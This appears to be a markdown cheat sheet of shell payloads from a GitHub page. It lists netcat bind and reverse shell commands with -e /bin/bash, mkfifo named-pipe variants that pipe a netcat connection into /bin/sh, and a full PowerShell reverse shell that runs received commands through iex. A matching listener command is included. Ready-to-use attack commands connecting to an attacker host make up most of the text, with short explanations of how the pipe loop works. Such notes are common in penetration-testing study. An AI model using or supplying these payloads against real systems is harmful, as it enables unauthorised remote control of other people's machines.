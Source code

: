 # Shell Payloads

netcat as a listener for bindshells

### As a listener on the target machine
`nc -lnvp <port> -e /bin/bash` 

Connecting to the above listener with netcat will result in a bind shell on the target.

### reverse shell

Equally with reverse shell connecting back with `nc attacker-host attacker-port -e /bin/bash` would result in a reverse shell on the target.

On linux, we will use this piece of code instead to create a listener for bind shell

`mkfifo /tmp/f;nc -lnvp <PORT> < /tmp/f | /bin/sh > /tmp/f 2>&1; rm -rf /tmp/f`

Explanation:-
- The command creates a `named pipe` at /tmp/f
- Then it starts a netcat listener & connects the input of the listener to the output of the `named pipe`
- The output of the netcat listener(i.e, commands we send) then gets directly piped into `/bin/sh` sending the stderr stream into stdout and sending the stdout itself into the input of the `named pipe`, thus completing the circle.

A very similar command can be used for reverse shells

`mkfifo /tmp/f; nc <attacker-host> <attacker-port> < /tmp/f | /bin/sh > /tmp/f 2>&1; rm -rf /tmp/f`

## Windows host - reverse shell

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

And from the linux host

`sudo nc -lnvp 443`


